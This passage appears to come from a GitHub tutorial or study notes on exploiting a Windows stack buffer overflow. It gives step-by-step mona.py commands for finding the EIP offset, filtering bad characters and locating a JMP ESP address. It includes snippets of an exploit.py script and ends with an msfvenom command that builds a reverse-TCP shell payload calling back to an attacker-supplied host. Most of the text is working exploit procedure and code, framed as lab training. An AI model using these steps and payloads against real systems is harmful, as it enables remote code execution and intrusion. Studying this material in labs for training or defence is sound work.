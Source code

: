 3. Re-run exploit.py and use:
```
!mona findmsp -distance <SIZE>
```

4. Update exploit.py with the offset and set retn = "BBBB":
```python
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
```

5. Re-run to confirm EIP = 42424242 (hex for "BBBB").

### Finding Bad Characters

1. Generate a byte array excluding \x00:
```
!mona bytearray -b "\x00"
```

2. Copy the byte array to payload in exploit.py and re-run.

3. Analyze bad characters:
```
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
```

4. Exclude found bad characters and repeat:
```
!mona bytearray -b "\x00\x01\x02\x03"
```

5. Continue until Unmodified status is returned.

### Locating a Jump Point

1. Search for a JMP ESP address:
```
# Inside .exe
!mona jmp -r esp -cpb "<BAD_CHARS>"

# Inside DLL
!mona modules    # find a DLL with Rebase, SafeSEH, ASLR, NXCompat set to False
!mona find -s "\xff\xe4" -m <DLL>
```

2. Update retn in exploit.py with the address in little-endian format:
```python
retn = "\xaf\x11\x50\x62"  # Example: 0x625011af
```

### Generating and Injecting Payload

Generate shellcode with msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c
```
